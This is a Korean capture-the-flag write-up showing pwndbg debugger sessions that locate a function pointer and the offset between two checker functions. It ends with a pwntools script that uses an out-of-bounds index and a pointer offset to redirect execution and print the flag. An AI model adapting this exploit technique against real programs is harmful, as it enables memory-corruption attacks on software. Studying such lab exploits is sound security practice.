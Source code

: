 ```bash
   0x8049614 <vuln+164>    mov    esi, dword ptr [ebx + 0x40]             ESI, [check] => 0x8049436 (hard_checker) ◂— endbr32
   0x804961a <vuln+170>    sub    esp, 0xc                                ESP => 0xffffd0f4 (0xffffd100 - 0xc)
   0x804961d <vuln+173>    lea    eax, [ebp - 0x88]                       EAX => 0xffffd110 —▸ 0xffff0061 ◂— 0
   0x8049623 <vuln+179>    push   eax
   0x8049624 <vuln+180>    call   strlen@plt                  <strlen@plt>

pwndbg> p &fun
$1 = (<data variable, no debug info> *) 0x804c080 <fun>
pwndbg> p &check
$2 = (<data variable, no debug info> *) 0x804c040 <check>
pwndbg> p/x 0x804c080 - 0x804c040
$3 = 0x40
pwndbg> p/d 0x40 / 4
$4 = 16
```
`check`는 `hard_checker()`를 가리키고 있으며, `fun`과의 거리는 `-16`에 위치해 있습니다.

```bash
pwndbg> x/a 0x804c040
0x804c040 <check>:      0x8049436 <hard_checker>
pwndbg> p easy_checker
$5 = {<text variable, no debug info>} 0x80492fc <easy_checker>
pwndbg> p/d 0x8049436 - 0x80492fc
$6 = 314
```
`hard_checker()`와 `easy_checker()`의 거리는 `314`만큼 차이가 나며, `hard_checker()`의 주소에 `314`만큼 빼주면 `easy_checker()`의 주소를 계산할 수 있습니다.

<br>

이제 반복문을 통해 `score`에 누적된 값이 `1337`이면 flag가 출력될 것입니다. 아래 방법으로 `1337`을 만들 수 있습니다.

```bash
pwndbg> p/d 1337 / 15
$22 = 89
pwndbg> p/d 89*15
$23 = 1335
```
아스키로 표현이 가능한 범위에서 `1337`을 나누고 나머지 값을 더해주면 `1337`을 만들 수 있습니다. 위에서 알아낸 정보를 가지고 공격 코드를 작성할 수 있습니다.

<br>
<br>

```python
from pwn import *

def conn():
  if len(sys.argv) == 3:
    host, port = sys.argv[1], int(sys.argv[2])
    p = remote(host, port)
  else:
    p = process('./vuln')
  return p

context.log_level = 'error'

p = conn()

p.sendline(chr(89).encode()*15 + chr(2).encode())
p.sendline(str(-16).encode())
p.sendline(str(-314).encode())

p.interactive()
```